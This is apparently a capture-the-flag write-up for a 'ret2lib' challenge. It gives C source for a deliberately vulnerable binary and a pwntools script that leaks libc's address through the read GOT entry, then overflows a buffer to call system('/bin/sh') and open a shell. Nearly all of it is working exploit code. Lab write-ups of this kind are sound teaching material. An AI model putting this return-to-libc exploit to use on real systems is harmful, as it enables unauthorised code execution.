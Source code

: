 ```c
	printf("Your message is : %s",buf);
}

int main(){
	char address[10] ;
	char message[256];
	unsigned int addr ;
	puts("###############################");
	puts("Do you know return to library ?");
	puts("###############################");
	puts("What do you want to see in memory?");
	printf("Give me an address (in dec) :");
	fflush(stdout);
	read(0,address,10);
	addr = strtol(address);
	See_something(addr) ;
	printf("Leave some message for me :");
	fflush(stdout);
	read(0,message,256);
	Print_message(message);
	puts("Thanks you ~");
	return 0 ;
}
```

we could use the ``See_something`` function to leak the libc's address and call system function with ``Print_message`` function

exp.py
```python
from pwn import *
context.log_level='debug'

binary = ELF('./ret2lib')
lib = ELF('/lib/i386-linux-gnu/libc-2.23.so')

readoff = lib.symbols['read']
systemoff = lib.symbols['system']
binshoff = list(lib.search('/bin/sh'))[0]

readgot = binary.got['read']

r = process('./ret2lib')
r.recvuntil(' :')

r.sendline(str(readgot))

r.recvuntil('0x')
intstr = r.recvn(8)
read = int(intstr, 16)

libc = read - readoff

r.recvuntil(' :')

pl = ''
pl += 'a'*60
pl += p32(libc + systemoff)
pl += 'a'*4
pl += p32(libc + binshoff)
r.sendline(pl)

r.interactive()
```
